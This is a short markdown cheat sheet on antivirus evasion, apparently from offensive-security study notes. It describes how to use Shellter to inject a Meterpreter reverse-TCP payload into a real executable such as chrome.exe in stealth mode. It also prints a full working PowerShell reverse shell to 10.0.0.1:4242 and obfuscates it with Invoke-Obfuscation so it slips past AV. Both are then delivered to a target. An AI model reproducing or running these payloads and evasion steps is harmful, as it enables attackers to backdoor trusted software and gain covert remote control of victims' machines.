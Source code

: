 # Antivirus Evasion

## AV evasion with shellter

* Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can be used in order to inject shellcode into native Windows applications (currently 32-bit apps only). The shellcode can be something yours or something generated through a framework, such as Metasploit. Shellter takes advantage of the original structure of the PE file and doesn’t apply any modification such as changing memory access permissions in sections (unless the user wants to), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.
* Install (https://www.kali.org/tools/shellter/)
* How to use (example)
  * Start shellter
  * Choose operation mode: `A` (automatic)
  * PE target: `/path/to/file/chrome.exe`
  * Enable stealth mode? `Y` (in this way the executable works as intended)
  * Select the payload you want (you can also generate a new one)
    * For this example we select a listed payload (meterpreter reverce tcp)
  * Set lhost and lport
  * Now the exe will be overwrite (but shellter creates a backup of the original exe)
  * Set listener (ex. multi/handler), download the exe on the target machine and execute

## AV evasion for powershell script - Invoke-Obfuscation

* https://github.com/danielbohannon/Invoke-Obfuscation
* Require powershell (`sudo apt install powershell -y`). You can run powershell with `pwsh`
* cd into invoke-obfuscation folder
* `Import-Module ./Invoke-Obfuscation.psd1`
* `Invoke-Obfuscation`
* Copy a reverse shell in poweshell (example): `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
* Remove `powershell -nop -c` and `" "`
* `$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
* Set lhost and lport and save (example) as `shell.ps1`
* On Invoke-Obfuscation `SET SCRIPTPATH /path/to/shell.ps1`
* Set `AST` options (The AST options works better with windows 10...
* Choose one of the AST module: `ALL`
* Choose one of the AST\ALL options to apply to current payload: `1`
* In the result you will get the result obfuscated code. Copy and save the code
* Set listener (ex. multi/handler), download the exe on the target machine and execute

